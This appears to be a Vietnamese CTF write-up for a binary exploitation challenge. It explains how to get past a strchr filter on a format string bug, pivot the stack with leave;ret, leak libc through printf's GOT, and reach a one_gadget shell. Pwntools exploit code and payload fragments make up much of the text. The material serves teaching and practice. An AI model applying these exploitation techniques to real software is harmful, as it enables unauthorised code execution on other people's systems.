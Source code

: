 **1. Tìm bug**
  - Xem qua ida, hàm main không có gì hot chủ yếu call vuln
  - ![image](https://user-images.githubusercontent.com/113702087/214854559-43ddf861-53ed-44a1-b81e-987c0c1dc774.png)
  - ở đây ta thấy ngay lỗi fmt, có một chút trở ngại để thực hiện %n vì khi nhập chuỗi s được kiểm tra qua hàm strchr
  - ta có thể lợi dụng điểm dừng của hàm strchr là null byte để đưa %n vào, đồng thời dùng %c để kéo dãn độ dài s bù vào null byte đó thì có thể thực thi được %n
  - Sau khi debug vài lần thì thấy rằng ```'%6c' + b'\x00'*6' + fmt'``` thì có thể thực thi fmt được với fmt có %n được setup sẵn
  - ![image](https://user-images.githubusercontent.com/113702087/214909361-7d68a056-02bf-43b9-9ade-38e12a00aea0.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214909428-029d364d-396a-441c-a476-10e5d81b1aab.png)
**2. Ý tưởng**
  - Tôi sẽ thay đổi saverbp thành 1 địa chỉ nằm trong khoảng buf và saverip thành leave ; ret lúc này rsp sẽ thành (rbp + 8) và vì nằm trong khoảng buf nên ta có thể ghi các ROP vào
  - Do mỗi khi thực hiện fmt thì các dữ liệu đều được ghi vào đó khiến việc setup địa chỉ trong stack khá khó khăn vì có thể bị các dữ liệu mới ghi đè vào
  - ![image](https://user-images.githubusercontent.com/113702087/215037508-00decbc8-7d7e-4c05-bd12-bc4a797bb640.png)
  - Tôi đã test thử '%20c%24$n'
  - ![image](https://user-images.githubusercontent.com/113702087/215037561-7a564f07-c5ef-4972-818a-950e0c71068b.png)
  - Chúng ta có thể thấy sự thay đổi của stack
  - Byte của saverip cần chuyển là 0xad làm tròn sẽ là 0xb0, đây sẽ là byte lớn nhất và được ghi sau cùng của fmt, từ (buf + 176) trở đi ta có thể ghi các địa chỉ cần ghi đè và ROP
  - Ở đây tôi chỉ ghi 2 địa chỉ do đó các ROP sẽ bắt đầu ghi từ (buf + 192) -> saverbp mới là (buf + 184) -> ghi được 8 stack, khá ít nhưng thế cũng là đủ
**3. Exploit**
  ```
  r.recvuntil(b'at ')
out = r.recv(14)
buff_addr = int(out, 16)
print(hex(buff_addr))


saverip = buff_addr + 280
saverbp = buff_addr + 288
rbp_addr = buff_addr + 272
leave_ret = 0x00000000004012ad

libc.sym['one_gadget'] = 0xe3b01



new_saverbp = buff_addr + 184
print('buff_add: ' + hex(new_saverbp))
s_newsaverbp = str(hex(new_saverbp))
off_set = int('0x' + s_newsaverbp[12:14], 16)
print(off_set)
  ```
  - **leak địa chỉ buf và tính cách giá trị cho fmt**
  ```
  if off_set - 9 < 0:
    r.close()
elif off_set > 0xad :
    r.close()
  ```
  - ở đây offset cho %n phải > 9 do %6c đã tạo ra 9 byte nên lúc ghi vào sẽ >= 9 byte, đồng thời phải < 0xad là byte của saverip mới ( leave ; ret )
  - **Tạo payload**
  ```
  payload = b'%6c'.ljust(8, b'\x00') + b'\x00' + b'%' + str(off_set - 9).encode('utf-8') + b'c%27$hhn' + b'%' + str(0xad - off_set).encode('utf-8') + b'c%28$hhn' 
payload = payload.ljust(56, b'\x00') + b'\x00'*120 + p64(rbp_addr) + p64(saverip) + p64(pop_rdi) + p64(exe.got['printf']) + p64(exe.sym['printf']) + p64(ret) + p64(exe.sym['vuln']) + p64(pop_rbp) + p64(buff_addr) + p64(leave_ret)
  ```
  - Ban đầu leak libc rồi thực thi lại vuln để ghi onegadget tiếp đó thay đổi rbp và leave ; ret vào onegadget
  - **Leak libc**
  ```
  out = r.recv(6)
print(out)
libc_leak = u64(out + b'\x00'*2)
libc.address = libc_leak - libc.sym['printf']
print('libc_base: ' + hex(libc.address))
print('one_gadget: ' + hex(libc.sym['one_gadget']))
  ```
  - **Gửi payload có onegadget**
  ```
  payload = b'n'*55 + p64(libc.sym['one_gadget'])
r.sendlineafter(b': ', payload)
  ```
  - **Get shell**
  - ![image](https://user-images.githubusercontent.com/113702087/215040212-56973d58-24ab-41ea-a351-4b14b6990022.png)
  
